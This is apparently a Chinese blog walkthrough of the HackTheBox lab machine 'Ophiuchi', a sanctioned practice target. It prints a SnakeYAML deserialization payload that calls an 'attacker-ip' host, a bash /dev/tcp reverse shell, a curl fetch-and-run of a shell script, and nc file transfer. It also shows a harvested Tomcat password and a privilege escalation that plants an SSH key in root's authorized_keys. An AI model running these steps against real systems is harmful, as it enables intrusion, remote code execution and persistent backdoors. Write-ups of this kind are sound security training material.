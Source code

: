 ```yaml
---
layout:     post
title:      HackTheBox Ophiuchi
subtitle:   HackTheBox
date:       2021-06-08
author:     heria
header-img: img/post-bg-028.jpg
catalog: true
tags:
---
```




![image-20210607144706732](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607144706732.png)

## 信息收集

```
nmap -sC -sS -sV 10.10.10.227
```

![image-20210607144816891](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607144816891.png)

22和8080端口

## 渗透

来到8080端口，发现在线yaml解析（yaml通常用于配置文件和存储或传输数据的应用程序）

![image-20210607145212817](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607145212817.png)

随便输入数据，提示如下信息

![image-20210607145351911](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607145351911.png)

我们可以试着寻找一些已知的YAML漏洞，经过搜索引擎搜索后，我们找到一个YAML Parser 的RCE漏洞：

```
https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858
```

使用文中的poc进行漏洞验证，首先kali开启SimpleHTTPServer

之后发送如下数据

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

![image-20210607145742804](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607145742804.png)

kali发现存在访问记录，说明存在漏洞

![image-20210607145757604](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607145757604.png)

去如下地址下载利用代码

```
https://github.com/artsploit/yaml-payload
```

首先创建一个shell.sh 

写入反弹shell语句

```
bash -i >& /dev/tcp/10.10.14.3/8888 0>&1
```

之后修改脚本文件内容

通过curl下载反弹shell脚本

```
curl http://10.10.14.3/shell.sh -o /tmp/shell.sh  
```

执行

```
bash /tmp/shell.sh
```

![image-20210607150702527](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607150702527.png)

打jar包

```
cd yaml-payload-master
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf shell.jar -C src/ .
```

![image-20210607152057073](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607152057073.png)

生成shell.jar

kali开启HTTP服务,同时开启shell.sh中指定的监听端口

![image-20210607152900430](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607152900430.png)

发送如下数据

![image-20210607152838559](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607152838559.png)

之后反弹shell成功执行

![image-20210607152828064](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607152828064.png)

在/opt/tomcat/conf/tomcat-users.xml找到admin和密码whythereisalimit

![image-20210607153947548](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607153947548.png)

之后ssh连接，拿到第一个flag

![image-20210607154151335](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607154151335.png)

## 提权

sudo -l查看特权文件

![image-20210607154256150](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607154256150.png)

函数和变量从main.wasm文件中导入并检查变量的值f，如果它等于1，执行deploy.sh，并且main.wasm和deploy.sh是相对路径，我们可以修改原main.wasm文件总是返回1的结果，并建立自己的deploy.sh获得root权限。

我们通过nc文件传输到本地，到本地修改文件

因为main.wasm是编译后的二进制文件，不能直接编辑，首先要转换为.wat文件，然后修改它返回1，再次将它转换为.wasm二进制文件。先安装wat工具。

```
https://github.com/webassembly/wabt
```

下载后执行以下语句

```
$ cd wabt
$ mkdir build
$ cd build
$ cmake .. -DBUILD_TESTS=OFF
$ cmake --build .
```

编译时，说缺少一个wasm.h。这个不用理会，bin目录下该有的都有了

之后在目标机上执行

```
cd tmp
mkdir work && cd work

cp /opt/wasm-functions/main.wasm ./
```

![image-20210607175158727](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607175158727.png)

自己创建个deploy.sh，文件内容如下

```
echo $(id)
```

使用nc将main.wasm从目标机传输到我们本地机器

```
cat main.wasm | nc {your-ip} {your-port}   (on target)
nc -lnvp {your-port} > main.wasm           (on local)
```

![image-20210607175743749](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607175743749.png)

转为wat

```
./wasm2wat main.wasm >main.wat
```

![image-20210608085643908](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608085643908.png)

把0修改成1

![image-20210608085859119](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608085859119.png)

重新编译回二进制文件，之后通过scp上传

```
./wat2wasm main.wat
scp main.wasm admin@10.10.10.227:/tmp/work
```

![image-20210608094110039](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608094110039.png)

之后执行脚本，看到在该路径下执行特权文件，由于main.wasm中值被修改，会执行我们自己创建的deploy文件，输出id信息

```
sudo /usr/bin/go run /opt/wasm-functions/index.go
```

![image-20210608094425173](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608094425173.png)

之后考虑将ssh公钥写进目标机对应文件,使用ssh密钥对登录

kali首先生成密钥对

```
ssh-keygen
cat /root/.ssh/id_rsa.pub
```

![image-20210608095519807](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608095519807.png)

修改delploy文件

```
echo "ssh-rsa xxxxxx" >> /root/.ssh/authorized_keys
```

![image-20210608095705829](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608095705829.png)

修改之后重新执行一遍脚本

之后就可以直接ssh登录了，拿到第二个flag

![image-20210608095911215](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608095911215.png)